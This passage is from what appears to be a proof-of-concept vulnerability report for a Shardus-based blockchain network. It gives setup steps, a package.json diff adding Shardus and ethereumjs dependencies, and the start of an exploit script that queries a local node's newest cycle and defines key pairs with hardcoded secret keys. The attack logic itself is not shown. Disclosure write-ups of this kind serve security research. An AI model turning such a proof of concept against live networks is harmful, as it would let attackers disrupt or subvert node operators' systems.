 ```bash
npm run start
```

at the `json-rpc-server` directory.

11. Wait for the network to be ready, by looking at the output from the `json-rpc-server`. We need `Current number of good nodes` to be 5.
12. Apply the patch for package.json inside `simple-network-test`

```diff
diff --git a/package.json b/package.json
index f1fa89a..5b096a9 100644
--- a/package.json
+++ b/package.json
@@ -3,6 +3,9 @@
     "commander": "^12.1.0",
     "dotenv": "^16.4.5",
     "ethers": "^5.7.2",
-    "winston": "^3.13.0"
+    "winston": "^3.13.0",
+    "@ethereumjs/util": "^9.0.2",
+    "@shardus/types": "1.2.14",
+    "@shardus/crypto-utils": "4.1.3"
   }
 }

```

13. Create the poc file

```js
const { Utils } = require("@shardus/types");
const crypto = require("@shardus/crypto-utils");

// Function to fetch and extract the 'start' field from the newest cycle data
const fetchStartField = async () => {
  try {
    const response = await fetch("http://localhost:9001/sync-newest-cycle", {
      method: "GET",
      headers: {
        "Content-Type": "application/json",
      },
    });

    if (!response.ok) {
      throw new Error(`Error: ${response.status} ${response.statusText}`);
    }

    const data = await response.json();
    const startField = data.newestCycle.start;
    return startField;
  } catch (error) {
    console.error("Error fetching start field:", error.message);
  }
};

const newKeyPair = {
  publicKey: "4b4d0378d88087d47074006fff1067f24d2b46f0b031dc0eac3c6aae89200f06",
  secretKey:
    "94a5acef210ee6d3fbadde8da6cd1246abf6259542265981edd0b1c63a3b2bc14b4d0378d88087d47074006fff1067f24d2b46f0b031dc0eac3c6aae89200f06",
};

const nodeKeyPair = {
  publicKey: "a943f173ebdce6a598e8397c11abc28484e55373546ee068069a5740ffb1de96",
  secretKey:
```